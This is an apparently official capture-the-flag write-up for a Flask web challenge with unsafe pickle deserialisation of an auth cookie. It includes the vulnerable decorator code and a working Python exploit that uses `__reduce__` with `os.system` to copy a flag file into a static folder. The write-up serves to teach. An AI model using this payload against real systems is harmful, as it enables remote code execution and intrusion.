

        <font size="5px">Spellbound Servants</font>

​      17<sup>h</sup> Oct 2023 / Document No. D22.102.xx

​      Prepared By: Xclow3n

​      Challenge Author(s): Xclow3n

​      Difficulty: <font color=green>Very Easy</font>

​      Classification: Official


# [Synopsis](#synopsis)

* The challenge involves exploiting an unsafe pickle deserialisation.

## Description

* Innocent souls, ensnared by malevolent enchantments, are tragically being auctioned as subservient beings on a sinister website. Our mission is to infiltrate this digital realm, unravel the dark spells that bind them, and set these unfortunate captives free from their tormentors, restoring their stolen freedom and dignity.

## Skills Required

* HTTP requests interception via proxy tools, e.g., Burp Suite / OWASP ZAP.

* Basic understanding of Python Flask framework.

  


## Skills Learned

* Exploiting unsafe pickle deserialisation.


# [Solution](#solution)

### Application Overview

Visiting the application home page gives us the following login:



After registering and logging in, we get the following home page:


That's the functionality the application has. Let's take a look at the source code.

### Unsafe Pickle Deserialisation

Looking at the login functionality defined in `routes.py` 

```python
@web.route('/home', methods=['GET', 'POST'])
@isAuthenticated
def homeView(user):
    return render_template('index.html', user=user)

@api.route('/login', methods=['POST'])
def api_login():
    if not request.is_json:
        return response('Invalid JSON!'), 400
    
    data = request.get_json()
    username = data.get('username', '')
    password = data.get('password', '')
    
    if not username or not password:
        return response('All fields are required!'), 401
    
    user = login_user_db(username, password)
    
    if user:
        res = make_response(response('Logged In sucessfully'))
        res.set_cookie('auth', user)
        return res
        
    return response('Invalid credentials!'), 403
```

The login functionality itself looks excellent and secure. The `/home` route uses a decorator function named `isAuthenticated`, defined in `utils.py`. Let's take a look at that function.

```python
def isAuthenticated(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = request.cookies.get('auth', False)

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')

    return decorator
```

The above function extracts the cookie named `auth`, and if the cookie doesn't exist, it will return a 401 Unauthorized response, but if the cookie exists, it will base64 decode the cookie and use `pickle.loads `on it. The application is unpickling (deserializing) untrusted data, which causes command execution.


We can exploit this by implementing `__reduce__` in a class in which instances we are going to pickle. We can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this to get our code executed.

We can use the following exploit to get the flag

```python
import requests
import pickle
import base64
import os
import time

url = 'http://127.0.0.1:1337'

payload = f'cat /flag.txt > /app/application/static/js/flag.txt'

class RCE:
    def __reduce__(self):
        cmd = payload
        return os.system, (cmd,)

def exploit():
    pickled = pickle.dumps(RCE())
    r = requests.get(f'{url}/home', cookies={'auth': base64.urlsafe_b64encode(pickled).decode('utf-8')})
    while True:
        flag = requests.get(f'{url}/static/js/flag.txt')
        if 'HTB'.encode('utf-8') in flag.content:
            break
        time.sleep(5)
    
    print('[*] %s' % flag.content)

exploit()
```


